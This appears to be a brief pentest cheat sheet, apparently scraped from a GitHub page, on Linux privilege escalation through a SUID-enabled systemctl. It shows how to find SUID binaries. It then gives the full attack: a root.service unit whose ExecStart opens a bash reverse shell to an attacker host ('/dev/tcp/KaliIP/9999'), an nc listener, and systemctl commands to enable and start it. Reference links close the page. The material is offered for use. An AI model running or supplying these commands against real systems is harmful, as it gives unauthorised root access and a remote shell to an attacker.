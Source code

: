 Identification :



**find / -type f -perm -04000 -ls 2>/dev/null**


Exploitation for systemctl 
create a file called root.service with contents

"
[Unit]
Description=roooooooooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/KaliIP/9999 0>&1'

[Install]
WantedBy=multi-user.target
"
start nc listener on 9999

`/bin/systemctl enable path_to_root.service`

`/bin/systemctl start root`


Links 
1) https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49
2) https://www.codegrepper.com/code-examples/shell/suid+privilege+escalation+systemctl
3) https://gtfobins.github.io/


